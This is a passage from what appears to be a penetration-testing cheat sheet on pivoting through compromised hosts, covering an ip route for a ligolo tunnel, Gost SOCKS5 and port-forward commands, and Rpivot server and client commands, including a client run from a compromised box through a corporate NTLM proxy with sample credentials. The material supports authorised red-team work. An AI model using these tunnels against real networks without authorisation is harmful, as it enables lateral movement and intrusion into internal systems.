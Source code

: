 4. Adding a new IP route to the second network.
- Before being able to use our local tools to the second network that we want to pivot to, we need to add a new IP route for it through the `ligolo` interface that we created in the first step.
`ip route add 172.16.10.0/24 dev ligolo`

5. Using local tools.
- After the tunneling has been initiated, we can use local offensive tools to the second network as well.

#### Triple, etc. Pivot
- The process is exactly the same as the second pivot.

#### Pivoting to individual hosts to expose internally running services.
- The same process can also be used to pivot to individual hosts instead of whole subnets. This will allow an operator to expose locally running services in the compromised server, similar to the dynamic port forwarding through SSH.

## Gost

> Wiki English : https://docs.ginuerzh.xyz/gost/en/

```powershell
git clone https://github.com/ginuerzh/gost
cd gost/cmd/gost
go build

# Socks5 Proxy
Server side: gost -L=socks5://:1080
Client side: gost -L=:8080 -F=socks5://server_ip:1080?notls=true

# Local Port Forward
gost -L=tcp://:2222/192.168.1.1:22 [-F=..]
```

## Rpivot

Server (Attacker box)

```python
python server.py --proxy-port 1080 --server-port 9443 --server-ip 0.0.0.0
```

Client (Compromised box)

```python
python client.py --server-ip <ip> --server-port 9443
```

Through corporate proxy

```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe --password 1q2w3e
```
